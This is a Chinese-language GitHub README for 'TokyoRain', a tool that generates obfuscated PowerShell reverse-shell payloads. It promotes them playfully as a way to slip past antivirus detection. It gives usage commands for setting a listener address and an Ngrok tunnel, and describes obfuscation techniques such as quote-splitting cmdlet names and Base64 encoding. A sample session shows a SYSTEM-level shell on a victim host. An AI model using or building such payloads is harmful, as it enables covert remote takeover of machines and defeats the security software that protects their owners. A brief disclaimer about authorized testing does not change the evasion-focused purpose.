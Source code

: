 ```markdown
🌧️⃟ TokyoRain - 让混淆的PowerShell载荷像雨点般隐秘渗透 ☔️

<p align="center">
  <img src="https://media.giphy.com/media/3o7abKhOpu0NwenH3O/giphy.gif" alt="digital rain">
</p>

[![GitHub stars](https://img.shields.io/github/stars/9Insomnie/TokyoRain?style=for-the-badge&color=0099ff)](https://github.com/9Insomnie/TokyoRain/stargazers)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)

## 🎩 这是什么魔法？

还在为反病毒软件的严格检测发愁？TokyoRain 来帮你「人工降雨」！通过动态字符串混淆和Ngrok隧道支持，让你的PowerShell载荷像雨点一样绕过检测，滋润你的红队行动~ 💻🌧️

```bash
# 基础咒语示例
python tokyo_rain.py -l 192.168.1.233 -p 3399
```

## 🚀 超能力清单

- 🎭 **动态变脸术**：每次生成的载荷都有新面孔，让检测引擎怀疑人生！
- 🌐 **Ngrok隧道快递**：内网穿透？我们包邮！（需自备Ngrok账号）
- 🕶️ **VIP会话包厢**：同时管理5个会话，每个攻击目标都有专属座位
- 🧩 **智能混淆算法**：把`New-Object`变成`N''e''w-O''bj''ec''t`之类的魔法文字游戏
- 🎨 **彩虹终端界面**：用Colorama绘制的彩色控制台，比黑白屏有趣100倍

## 🛠️ 安装指南

把这份「魔法配方」克隆到你的法术书（本地仓库）吧！

```bash
git clone https://github.com/9Insomnie/TokyoRain.git
cd TokyoRain/
pip install -r requirements.txt  # 安装魔法药水材料
```

## 🎮 使用说明书

### 基础模式
```bash
# 开启你的降雨仪式（记得替换IP哦~）
python tokyo_rain.py -l 192.168.1.666 -p 2333

# 想直接看「雨水源码」？加上-r参数！
python tokyo_rain.py -r raw
```

### 高级模式
```bash
# 启用Ngrok魔法隧道（需要先配置好Ngrok）
python tokyo_rain.py -n ngrok
```

### 控制台魔法秀
```
[成功] 接受来自 192.168.1.102:54188 的连接

活动会话 --> [会话ID::1, 192.168.1.102::54188 ]
[提示]: 按CTRL+C切换会话
[提示]: 输入0将终止所有会话
-----------------------------------------------
[?] 选择会话 (1-3) 或输入0退出: 1

192.168.1.102:54188 >>> [Tokio会话] 1: whoami
nt authority\system 🌟
```

## 🧙 魔法原理

### 混淆炼金术流程
1. **材料准备**：生成10个随机UUID作为混淆原料
2. **文字变形**：把敏感字符串变成`Syst??r??t`这样的谜语
3. **变量整容**：用`$3dbfe2ebffe072727`这样的神秘符号替换常规变量名
4. **最终附魔**：通过Base64编码把payload变成「天书」

### 会话管理秘籍
- 🎪 每个会话都是马戏团里的独立表演者
- 🤹 用数字键快速切换不同「杂技演员」
- 💫 `quit`命令是优雅的谢幕动作

## ⚠️ 安全须知

❗ 本工具仅限授权测试使用，擅自对他人系统「人工降雨」可能会被雷劈哦 ⚡  
❗ 生成payload前请确认自己在法律允许的「降雨区域」  
❗ 建议在隔离的「魔法练习场」（虚拟机环境）使用

## 🌈 贡献指南

欢迎提交你的「魔法改良配方」！请遵循以下步骤：
1. Fork 本魔法书
2. 创建新的魔法分支 (`git checkout -b feature/awesome-spell`)
3. 提交你的咒语改进 (`git commit -am 'Add fireball spell'`)
4. 推送魔法到云端 (`git push origin feature/awesome-spell`)
5. 发起Pull Request

## 📜 开源许可

本项目采用 MIT 许可证 - 详情请见 [LICENSE](LICENSE) 文件。  
Made with ❤️ by [9Insomnie](https://github.com/9Insomnie) | 灵感来自无数个不眠雨夜 🌧️

```

---

<p align="center">
  🌀 准备好了吗？让我们在数字世界的暴雨中起舞吧！ 💃🌧️🕺
</p>
```
